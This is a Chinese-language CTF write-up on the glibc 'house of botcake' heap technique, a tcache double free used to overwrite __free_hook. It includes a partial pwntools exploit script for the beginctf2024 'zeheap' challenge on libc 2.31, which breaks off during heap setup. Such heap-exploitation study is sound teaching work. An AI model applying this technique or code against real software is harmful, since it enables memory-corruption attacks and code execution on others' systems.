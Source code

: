 - 构造出一个chunk既在unsorted bin中，又在tcache中的chunk，我们通过unsorted bin修改这个chunk的next值为free\_hook，在tcache中结构就为:chunk-&gt;free\_hook再malloc就可以了
- 特点：同一堆块第一次 free 进 unsorted bin 避免了 key 的产生，第二次 free 进入 tcache，让高版本的 tcache double free 再次成为可能
- 利用方法：
    
    
    1. 通常的利用思路就是，填充完 tcache bin 链表后，然后把一个chunkA free到 unsorted bin 中，然后把这一个chunkA 的prev chunk,chunkB free掉，这样A、B就会合并，unsorted bin中的fd指针就从指向chunk A到指向chunk B
    2. 之后我们先申请一个chunk 在tcache bin中给chunk A 留下空间，利用 house of hotcake 的原理再free chunkA, 这时候chunk A 已经double free 了（既在unsorted bin中又在tcache中），然后我们可以在unsoreted bin中申请一个比较大的空间，通过chunkB、chunkA 的相邻来改变chunkA 的fd指针,让其指向free\_hook
    3. 此时tcache结构为:chunk A-&gt;free\_hook（原本的链断了），申请两次chunk打free\_hook

例题 libc2.31 beginctf2024 zeheap
-------------------------------

1.注意到题目中delete没有做什么检查，可以uaf让多个指针指向同一个chunk，最后打house of botcake  
2.show的时候会检查mark,但是很好绕过，就是让list\[i\]不同的i指向同一个chunk即可

```python
from pwn import *
from pwnlib.util.packing import p64
from pwnlib.util.packing import u64
context(os='linux', arch='amd64', log_level='debug')
file = "/home/zp9080/PWN/zeheap"
libc=ELF("/home/zp9080/PWN/libc-2.31.so")
elf=ELF(file)
sh=process(file)
# sh=gdb.debug(file,'b *$rebase(0x193F )')

def create(idx):
    sh.sendlineafter("choose:\n",b'1')
    sh.sendlineafter("num:\n",str(idx))

def edit(idx,content):
    sh.sendlineafter("choose:\n",b'2')
    sh.sendlineafter("num:\n",str(idx))
    sh.sendafter("read:\n",content)

def show(idx):
    sh.sendlineafter("choose:\n",b'3')
    sh.sendlineafter("num:\n",str(idx))

def delete(idx):
    sh.sendlineafter("choose:\n",b'4')
    sh.sendlineafter("num:\n",str(idx))
#一般都习惯于找一个以后都不用的chunk写入/bin/sh
create(15)
edit(15,b'/bin/sh\x00')

for i in range(7):
    create(i)

create(7)
create(8)
#防止与top chunk合并
create(9)

for i in range(7):
    delete(i)

#7和8一起在unsorted bin中
delete(7)
delete(8)

#给8腾出一个tcache位置
```